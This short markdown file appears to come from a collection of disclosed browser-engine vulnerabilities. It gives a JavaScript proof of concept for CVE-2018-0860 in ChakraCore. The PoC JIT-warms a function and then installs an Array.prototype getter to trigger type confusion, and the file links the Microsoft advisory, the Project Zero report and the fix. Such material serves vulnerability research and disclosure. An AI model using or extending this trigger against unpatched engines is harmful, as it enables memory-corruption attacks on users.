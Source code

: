 # CVE-2018-0860

- Fix: Feb 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt() {
    let arr = [];
    return arr['x'];
}

function main() {
    let arr = [1.1, 2.2, 3.3];
    for (let i = 0; i < 0x10000; i++) {
        opt();
    }

    Array.prototype.__defineGetter__('x', Object.prototype.valueOf);

    print(opt());
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-0860)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1437)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/9dac38fa6a6273f4cd57234d3caf4c7033e527bc)